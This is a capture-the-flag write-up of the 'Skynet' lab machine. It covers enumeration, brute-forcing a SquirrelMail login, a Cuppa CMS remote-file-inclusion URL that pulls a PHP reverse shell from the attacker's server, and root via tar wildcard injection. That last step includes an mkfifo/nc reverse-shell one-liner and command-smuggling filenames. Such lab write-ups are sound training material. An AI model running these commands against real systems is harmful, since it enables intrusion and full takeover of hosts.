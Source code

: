 **Category:** Web
**Author:** *Harsh Sharma*

# Skynet

## Enumeration using nmap

 `nmap -sV -sC -p- 10.10.239.177`

![](images/skynet-image_01022025_145034.png)

So many services running, let's start enumerating the directories

### Dir enumeration

![](images/skynet-image_01022025_154859.png)

Nothing on the source code too.

`gobuster dir -u 10.10.239.177 -w /usr/share/wordlists/dirb/common.txt -x html,php -q`

![](images/skynet-image_01022025_154793.png)

All the dirs are unaccessible but the squirrelmail page.

![](images/skynet-image_01022025_155463.png)

>However, we do need a login id and password and the usual ones [(admin, password), (admin, admin) etc... ]didn't work

Let's try samba exploitation for any useful info.

### Samba enumeration

I am using enum4linux script with verbose option to see for any credentials or any other useful info
`enum4linux -v 10.10.239.177 | tee smb_enum.log`

and interestingly enough, found a user *'milesdyson'* and *anonymous* as well

![](images/skynet-image_01022025_161858.png)

![](images/skynet-image_01022025_162487.png)

```console
smb: \> ls
  .                                   D        0  Thu Nov 26 16:04:00 2020
  ..                                  D        0  Tue Sep 17 07:20:17 2019
  attention.txt                       N      163  Wed Sep 18 03:04:59 2019
  logs                                D        0  Wed Sep 18 04:42:16 2019

                9204224 blocks of size 1024. 5820508 blocks available

```
Here's what the attention.txt says -
**A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this. -Miles Dyson**

As for the logs folder, there were 3 log files, out of which, 2 were empty, however, the third one appeared to be a password list that might been previous used.
> Many password started with the word 'terminator'

Now that we have a wordlist, and based on the hints, we can possibly try signing in on squirrelmail. 

I quickly fired up burp suite to intercept and it's just a simple POST request-

![](images/skynet-image_01022025_164122.png)

let's do a sniper attack with our wordlist 
> after setting user as *milesdyson*

![](images/skynet-image_01022025_164121.png)

and looks like this is the password-

![](images/skynet-image_01022025_165530.png)

> **FLAG-1**

and we are in...

![](images/skynet-image_01022025_165681.png)

Furthermore, 2 weird emails-

![](images/skynet-image_01022025_165939.png)

and

![](images/skynet-image_01022025_165990.png)

which translates to - *`balls have zero to me to me to me to me to me to me to me to me to`*

Dont' know the reference at this point but might be helpful later on. Additionally, found mile's password in another email for samba.

![](images/skynet-image_01022025_180002.png)

Used this to get in to his share and the found a file `/notes/important.txt`
> It was an interesting rabbit hole while trying to look for this

Anyhow, the file mentions about a CMS and a secret directory, let's visit it.
> **FLAG-2**

![](images/skynet-image_01022025_180280.png)

Nothing special on the page or the source code-

![](images/skynet-image_01022025_180310.png)

but there's an admin page (for the CMS, as mentioned earlier)

![](images/skynet-image_01022025_180507.png)

![](images/skynet-image_01022025_180534.png)

and this *'Cuppa CMS'* has a vulnerability-

![](images/skynet-image_01022025_180726.png)

after reading the file, it appears that is a file inclusion vulnerability i.e. 
**Remote File Inclusion**
> **FLAG-3**

### RFI exploit


![](images/skynet-image_01022025_181655.png)


So, i saved a php reverse shell in my root folder and used a python http server (port 8000) to transfer over the php file, exploiting RFI-

`http://10.10.239.177/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.174.219:8000/rev_shell.php`

![](images/skynet-image_01022025_183003.png)

![](images/skynet-image_01022025_183126.png)

and we have the shell...

Navigating to miles's home folder, we can find the user.txt

> **FLAG-4**

## Privilege Escalation

let's get a fully interactive shell first -

`python -c 'import pty; pty.spawn("/bin/bash")'`

![](images/skynet-image_01022025_183861.png)

let's check for crons

![](images/skynet-image_01022025_184944.png)

This backup file is being called every minute.

![](images/skynet-image_01022025_185004.png)

Interesting... It's saved as root and we can probably exploit it.

I spent a while before finding out [this](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa) article that elaborates on how to exploit tar wildcards-

Based on that, I used the following commands to get a root shell-

```console
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.174.219 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```
![](images/skynet-image_01022025_190508.png)

and in a couple of seconds, i have the root-

![](images/skynet-image_01022025_190504.png)

> **FLAG-5**

---
## Conclusion

This challenge provided a comprehensive journey through various phases of penetration testing:

- Enumeration: Leveraging tools like Nmap, Gobuster, and Enum4linux to uncover potential entry points.
- Exploitation: Exploiting vulnerabilities in services like Samba and Cuppa CMS to gain initial access.
- Privilege Escalation: Using creative methods, such as tar wildcard exploitation, to achieve root access.
Each step reinforced essential techniques in web application and service exploitation, showcasing the importance of methodical enumeration and persistence in CTF challenges.

Skynet was a great exercise in connecting the dots from enumeration to privilege escalation. Happy hacking! 😊


